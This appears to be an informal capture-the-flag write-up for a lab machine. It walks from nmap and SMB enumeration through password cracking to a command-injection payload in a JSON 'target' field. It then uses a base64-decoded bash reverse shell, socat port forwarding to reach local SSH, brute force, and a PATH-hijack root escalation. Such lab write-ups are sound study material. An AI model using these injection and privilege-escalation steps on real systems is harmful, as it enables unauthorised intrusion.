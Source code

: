 Started with a nmap scan
```
80 Apache 2.4.29
139 smb 
445 smb
```
Enumerating the smb we have to shares 
```
IPC$
yotf
```
We can not access the `yotf` share 
Enumerating possible users we got 
```
fox
rascal
```
Trying to crack the smb password for the user `fox` we got `246810` on the smb we have 2 files a `cipher.txt` and a `creds1.txt` file looking at the creds file its encoded hash in base32 and then in `base64` , `hex` and the cipher file does the same format but cant seem to decode them farther now were stuck in a rabbit hole but in the background ive been trying to crack a login for the site and got a hit `feeling` looking into the site we can get a list of files but there is a big block list on certain characters so I sent the request to burp and found that `/` in not blocked and we can use this for command injection and read files now `"target":"/";id\n` to get a reverse shell we have to take a basic bash one-liner and base64 encode it `"target":"/" ; echo base64string | base64 -d |bash\n` and now we are `www-data` now we can read the creds2 file and the other one as well but they go down the same path and cant fully decode them running linpeas on the host it found a hash in the `.htpasswd` file in `/etc/apache2` folder turn out its the has for the site login so did not see much but on the localhost ssh is open so lets use socat to port forward on the box run
`./socat tcp-listen:5000, fork tcp:127.0.0.1:22 &` have to use a static socat binary and now we can try and bruteforceing the login for both users got the login for the user `fox` password `.....` when we run `sudo -l` we can run a binary called shutdown transferring it to are host we and running strings on it we can see its using the poweroff command so we can write a exploit for this 
```
echo /bin/sh > poweroff
chmod 777 poweroff
export PATH=/tmp:$PATH
```
And run run the shutdown file and we are now root 